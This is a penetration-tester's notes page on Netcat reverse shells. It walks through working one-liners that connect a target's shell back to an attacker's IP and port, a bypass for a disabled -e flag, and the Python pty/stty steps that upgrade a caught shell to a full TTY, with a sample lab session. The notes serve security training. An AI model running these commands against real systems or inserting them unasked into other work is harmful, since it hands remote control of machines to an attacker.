


# Netcat

## Basic Reverse Shell

#### Target Machine

The simplest command to spawn the shell is&#x20;

```shell
nc $IP $PORT -e /bin/bash
```

* `$IP` is the IP address of the attacker's machine (where the shell is "caught")
* `$PORT` is the listening port on the attacking machine
* May type out IP address and port directly in command instead of creating session variables if desired

The `-e /bin/bash` portion of the command instructs Netcat to pass any input from the user directly on to the program `/bin/bash`.

Often the machine will have the `-e` flag disabled thus preventing this straightforward method of shell creation.

## Disabled Execution Bypass

For obvious reasons the `-e` flag presents a huge security risk for Netcat installations and is thus often disabled by default. Should the flag be disabled its functionality can be replicated via some creativity in the command line.

### Method 1 (Linux)

This method is somewhat unreliable but can be tried as a first attempt. The following command is run on the target (assuming attacker has opened a listener to catch the shell on their own machine already)

```bash
bash -i >& /dev/tcp/$IP/$PORT 0>&1
```

* `$IP` is the IP address of the attacker's machine (where the shell is "caught")
* `$PORT` is the listening port on the attacking machine
* May type out IP address and port directly in command instead of creating session variables if desired

<table><thead><tr><th width="196">Component</th><th>Description</th></tr></thead><tbody><tr><td><code>-i</code></td><td>Makes shell interactive</td></tr><tr><td><code>/dev/tcp/...</code></td><td>Some older Linux distros allow network access via the <code>/dev/tcp/$IP/$PORT</code> file path </td></tr><tr><td><code>0>&#x26;1</code></td><td>Binds STDIN and STDOUT together (and to the listening port)</td></tr></tbody></table>

### Method 2 (Linux)

This method tends to be a more reliable bypass. The following command is run on the target to create the "callback"


```bash
mkfifo /tmp/f; nc $IP $PORT < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```


* `$IP` is the IP address of the attacker's machine (where the shell is "caught")
* `$PORT` is the listening port on the attacking machine
* May type out IP address and port directly in command instead of creating session variables if desired

<table><thead><tr><th width="194">Component</th><th>Description</th></tr></thead><tbody><tr><td><code>mkfifo /tmp/f</code></td><td>Creates a named pipe at <code>/tmp/f</code></td></tr><tr><td><code>nc $IP $PORT</code></td><td>Invokes netcat and points it at the IP and PORT of the listener</td></tr><tr><td><code>&#x3C; /tmp/f</code></td><td>Redirects output of named pipe (<code>/tmp/f</code>) into netcat connection (returns it to attacker via network)</td></tr><tr><td><code>| /bin/sh</code></td><td>Pipes the output from netcat to the input of <code>/bin/sh</code></td></tr><tr><td><code>> /tmp/f</code></td><td>Redirects the output from /bin/sh to named pipe</td></tr><tr><td><code>2>&#x26;1</code></td><td>Binds (<code>>&#x26;</code> operator) the <code>stderr</code> (output number 2) and the <code>stdout</code> (output number 1).<br><br>Both are going into <code>/tmp/f</code> per step above.</td></tr><tr><td><code>rm /tmp/f</code></td><td>The named pipe persists as long as the shell connection is active (held in a loop by the redirects).<br><br>Once the connection is broken this ensures the named pipe (created by the attacker) is removed from the target system.</td></tr></tbody></table>

## Stabilization Techniques

A basic Netcat shell does not have all the features available in a regular (e.g. local) shell session. For example, using `Ctrl + C` kills the shell connection instead of killing whatever is running in the shell session. In order to upgrade to a full [TTY](https://unix.stackexchange.com/questions/4126/what-is-the-exact-difference-between-a-terminal-a-shell-a-tty-and-a-con) shell the following techniques can be used.

### Python

Linux boxes generally have Python installed by default and it can be used to stabilize the shell. This method is explained [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-1-python-pty-module). Some additional techniques for launching the shell are listed [here](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys).

#### Spawn pty Shell

The method leverages the Python 3 library [pty](https://docs.python.org/3/library/pty.html)  which defines operations for handling the pseudo-terminal concept. Specifically it uses the [`pty.spawn()`](https://docs.python.org/3/library/pty.html#pty.spawn) method to launch a new process and control it via the current terminal session. For the most part this will be used to launch bash as follows:

```python
import pty
pty.spawn('/bin/bash')
```

It can be launched as a one liner from on the victim machine with the following shell command:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

An example of this is shown below:

```
kali@kali$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.159] from (UNKNOWN) [192.168.205.63] 46170
...
confluence@confluence01:/tmp$ python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/bash")'   
$
```

#### Enhanced Shell Spawning

The `pty.spawn()` call can be enhanced a bit as shown below:

```python
import pty
pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])
```

This calls `spawn()` with a set of arguments that calls `env`, sets the variable `$TERM`, and launches `/bin/bash` in interactive mode (`-i`) and specifying `/etc/bash.bashrc` as the configuration file (`--rcfile`).

This can also be condensed into a command line call:


```bash
python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'
```


#### Backgrounding the Shell

Once the pty shell has been launched, the shell session is backgrounded with `Ctrl + Z` (inside the caught Netcat session). That will look like this:

```
...
confluence@confluence01:/tmp$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'   
$ ^Z
zsh: suspended  nc -lnvp 4444
```

#### Current Shell Session Details

From here the specifications of the current shell must be examined. This will be used to set up a fully interactive session. To get this information in the session (with the now backgrounded Netcat session) run:

```
stty -a
```

The output from this command will look something like this:

```bash
kali@kali:~$ stty -a
speed 38400 baud; rows 54; columns 237; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```

The relevant details are the number of rows (`54` in example) and columns (`237` in example). It also important to know the terminal type. This can be viewed in the `$TERM` variable:

```bash
echo $TERM
```

The output will look something like:

```bash
kali@kali:~$ echo $TERM            
xterm-256color
```

#### Set Shell Session I/O

At this point the [`stty`](https://man7.org/linux/man-pages/man1/stty.1.html) utility is used to set the IO device as follows (run in the session with the backgrounded Netcat session):

```bash
stty raw -echo
```

This sets I/O to standard device and turns off attacker's own terminal echo. The benefits of this are it gives access to tab autocomplete, arrow key usage, and `Ctrl + C` can be used to kill processes without exiting the shell. The Netcat session is then foregrounded with the [`fg`](https://www.geeksforgeeks.org/fg-command-in-linux-with-examples/) command. This can be combined into a single line as shown below:

```bash
stty raw -echo; fg
```

#### Optional Reset

Executing this in the reverse shell session can cause the shell to become misaligned so it can be reset with the `reset` command as seen in this screenshot:

<figure><figcaption><p>Resetting the Netcat shell</p></figcaption></figure>

* Note: sometimes the reset will cause a prompt asking for the terminal type. If this happens, enter the `$TERM` value (found earlier in the example)
* This step is optional as the terminal will have to be reset again at the end of the setup

#### Setting Shell Session Variables

At this stage the SHELL and TERM session variables must be set, and then `stty` will be used to set the number of rows and columns for the session window. The commands are shown below:

```bash
export SHELL=/bin/bash
export TERM=xterm-256color
stty rows 54 columns 237
```

* The value for `$SHELL` is the same as used in the `pty.spawn()` call
* The value for `$TERM` is the same as the attacker's shell found with `echo $TERM` above
* The `rows` and `columns` values are the same as the attacker's shell session found with `stty -a` above

They can be combined into a one-liner as shown below:

```bash
export SHELL=/bin/bash; export TERM=xterm-256color; stty rows 54 columns 237
```

#### Reset Shell

From here the shell must be reset with the `reset` command. This will cause all of the changes made above to take effect.

After the reset the shell appears exactly as if it were running on the local machine:

<figure><figcaption><p>Full TTY shell</p></figcaption></figure>

The session even has tab complete, `Ctrl + C` for killing jobs, etc.

#### Simplified

This whole thing can be simplified a bit. The first stage is to get a normal Netcat shell. From there launch the pty session with `pty.spawn()`:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

* `/bin/bash` can be replaced with whatever shells are available on the machine (listed in `/etc/shells`)

Preferably the enhanced call can be used:


```bash
python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'
```


* Variables such as `TERM`, shell used (`/bin/bash`), configuration file location (`--rcfile`), and interactive mode(`-i`) can be configured on a per-use basis

At this point the session is backgrounded with `Ctrl + Z`. If needed, the shell specifications (`rows`, `columns`, and `$TERM`) can be researched here. Once those values are known the whole thing can be run quickly. First the I/O is set and the shell brought to the fore:

```bash
stty raw -echo && fg
```

Then the shell can be optionally reset if desired.

The shell variables are set and then the final reset occurs next. This can be done in a one-liner:


```bash
export SHELL=/bin/bash; export TERM=xterm-256color; stty rows 54 columns 237; reset;
```


* Value for `$SHELL` is the same `pty.spawn()` call argument&#x20;
* Values for `rows` and `columns` are the same as attacker's shell session (viewed with `stty -a`)&#x20;
* Value for `$TERM` the same as attacker's shell session (viewed with `echo $TERM`)

### rlwrap

Program which gives user access to history, tab auto-completion and the arrow keys immediately upon receiving a shell.

* Particularly useful with Windows shells which are typically difficult to stabilize
* Some additional manual stabilization must be done in order to use Ctrl+C command in the terminal to stop commands on target without exiting reverse shell

```bash
kal@kali:~$ rlwrap nc -lvnp $PORT
```

Invoked by simply placing `rlwarp` command ahead of the standard `nc` listener command for a reverse shell.

If the target is Linux the shell can be fully stabilized at this point by:

1. Suspend the shell with `Ctrl + Z`
2. Execute `stty raw -echo; fg` on the attacking machine to stabilize shell and then foreground the suspended job
